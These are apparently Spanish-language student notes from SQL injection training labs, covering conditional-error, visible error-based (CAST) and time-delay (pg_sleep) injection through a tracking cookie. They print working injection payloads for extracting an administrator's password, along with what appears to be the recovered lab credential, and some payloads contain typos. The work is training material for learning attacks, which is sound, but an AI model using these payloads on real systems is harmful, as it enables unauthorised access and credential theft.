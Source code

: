 '|| (select case when length(password)> 21 then to_char(1/0) else '' and from users where unsername='administrator')||'

### Constrasena

'|| (select case when substr(password,1,1)='c' then to_char(1/0) else '' and from users where unsername='administrator')||'



administrator  ir5irznuql3pyv7hexn8

# Laboratorio: Inyección SQL visible basada en errores

Este laboratorio contiene una vulnerabilidad de inyección SQL. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. Los resultados de la consulta SQL no se devuelven.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password. Para resolver el laboratorio, encuentre una manera de filtrar la contraseña del administrator usuario, luego inicie sesión en su cuenta.


Analizamos paso a paso cómo:

- Provocar un error de sintaxis añadiendo un carácter de comilla.
- Comentar el resto de la consulta para validarla sintácticamente.
- Utilizar subconsultas SQL combinadas con ‘CAST‘ para extraer información.
- Ajustar la consulta para obtener solo una fila y evitar errores de tipo.
- Filtrar primero el nombre de usuario del administrador y después su contraseña.



- ' or 1= cast((select username from user limit 1 ) as INT)-- -

- ' or 1= cast((select password from user limit 1) as INT)-- -



# Laboratorio: Inyección SQL ciega con retrasos de tiempo

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada.

Los resultados de la consulta SQL no se devuelven y la aplicación no responde de manera diferente según si la consulta devuelve alguna fila o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible desencadenar retrasos de tiempo condicionales para inferir información.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección SQL para provocar un retraso de 10 segundos.


La aplicación no muestra errores ni cambios en la respuesta al procesar la cookie ‘TrackingId‘, pero ejecuta las consultas de forma síncrona.

- Aprovechamos este comportamiento para inyectar una función de retardo (pg_sleep) y medir el tiempo de respuesta del servidor. Si la consulta tarda en responder, podemos deducir que se ha ejecutado correctamente.
